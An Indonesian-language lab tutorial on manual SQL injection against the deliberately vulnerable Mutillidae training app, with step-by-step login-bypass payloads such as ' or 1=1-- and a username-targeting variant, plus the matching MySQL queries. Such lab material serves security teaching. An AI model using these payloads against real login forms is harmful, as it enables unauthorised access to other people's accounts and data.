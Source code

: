 # Manual SQL Injection with Firebug

## SQL Injection: Single Quote Test On Username Field

1. Buka Mutillidae pada firefox, lalu masuk ke halaman ```Login/Register```
![1](/lesson5/2.png)

2. Disitu kita akan melihat sebuah form login yang dapat diisi namun kita tidak mengetahui akun untuk autentikasinya. ketikkan ```'``` pada kolom "Name". Lalu klik "Login"
![1](/lesson5/3.png)

3. Perhatikan pesan error yang muncul dibagian atas. pesan itu menandakan bahwa fitur autentikasi tersebut rentan terhadap serangan SQL Injection
![1](/lesson5/x.png)

## SQL Injection: By-Pass Password Without Username (Obtain Access #1)

1. Masukkan string yang akan mengacaukan query seperti ```' or 1=1-- ```
**Penting: tambahkan spasi setelah sintaks comment jadi seperti ini ```'-- '```**
![1](/lesson5/6.png)

2. Maka kita akan berhasil login dengan akun admin. bagaimana bisa? string ```' or 1=1-- ``` akan menjadikan eksekusi query yang dasarnya adalah
```
select * from accounts where username='' and password=''
```
menjadi
```
select * from accounts where username='' or 1=1-- ' and password=''
```
query tersebut menghasilkan nilai true, dan mengambil user yang berada di paling atas pada tabel "accounts"

## SQL Injection: Single Quote Test On Password Field

1. Masukkan username dan lakukan inspect element pada kolom password lalu ubahlah ```type``` input dari ```password``` menjadi ```text```. lalu lakukanlah cek kerentanan dengan memasukkan string ```'``` lalu klik login untuk mengeksekusi querynya.
![1](/lesson5/8.png)

2. Setelah itu akan muncul error yang menandakan bahwa fitur autentikasi ini rentan terhadap serangan SQL Injection.
![1](/lesson5/9.png)

## SQL Injection: Single Quote Test On Password Field (Obtain Access #2)

1. Masukkan username dan lakukan inspect element pada kolom password lalu ubahlah value pada ```type``` menjadi ```text```, ```maxlength``` menjadi ```50``` dan ```size``` menjadi ```50```. setelah itu masukkan string ```' or (1=1 and username='samurai')-- ```
**Jangan lupa untuk menambahkan spasi setelah "-- "**
![1](/lesson5/11.png)

2. Setelah itu kita akan masuk dengan nama user "samurai" (sesuai dengan yang diinputkan tadi)
![1](/lesson5/12.png)

## Database Practice

1. masuk ke server mutillidae dan buka mysql dengan user root. dengan cara mengetikkan perintah
```
mysql -u root
```
![1](/lesson5/13.png)

2. tampilkan seluruh database dengan mengetikkan
```
show databases;
```
lalu pilih database yang digunakan oleh muttilidae (dalam kasus ini menggunakan database dengan nama owasp10) dengan mengetikkan
```
use owasp10;
```
![1](/lesson5/15.png)

3. Tampilkan seluruh tabel pada database dengan cara mengetikkan
```
show tables;
```
![1](/lesson5/16.png)

4. Tampilkan deskripsi dari tabel "accounts" dengan cara mengetikkan
```
desc accounts;
```
![1](/lesson5/17.png)

5. Tampilkan seluruh data pada tabel "accounts" dengan cara mengetikkan
```
select * from accounts;
```
![1](/lesson5/18.png)

6. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = '' dan password = '' dengan cara mengetikkan
```
select * from accounts where username='' and password='';
```
![1](/lesson5/19.png)

7. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai' dan password = 'samurai' dengan cara mengetikkan
```
select * from accounts where username='samurai' and password='samurai';
```
![1](/lesson5/20.png)

8. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai' dan password = 'wrongpassword' dengan cara mengetikkan
```
select * from accounts where username='samurai' and password='wrongpassword';
```
![1](/lesson5/21.png)

9. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai'. dengan memberikan *end syntax* ```;``` *comment* ```-- ``` setelah ```username='samurai'```sehingga menjadi seperti ini:
```
select * from accounts where username='samurai';-- and password='wrongpassword';
```
![1](/lesson5/22.png)
dengan ini syntax setelah ```username='samurai'``` tidak akan dibaca/dieksekusi.

10. Coba lakukan query seperti pada login form dengan mengetikkan ```'``` didalam username untuk merusak query.
```
> select * from accounts where username=''' and password='';
> ;
```
![1](/lesson5/24.png)

11. lakukan query agar query tersebut selalu mengembalikan nilai ```True``` dengan cara menambahkan ```'or 1=1;-- ``` didalam string username
```
select * from accounts where username=''or 1=1;-- ' and password='';
```
![1](/lesson5/25.png)

12. lakukan query sql injection untuk mencari user dengan username "samurai" dengan cara
```
select * from accounts where username='samurai' and password='' or (1=1 and username='samurai');--';
```
![1](/lesson5/27.png)
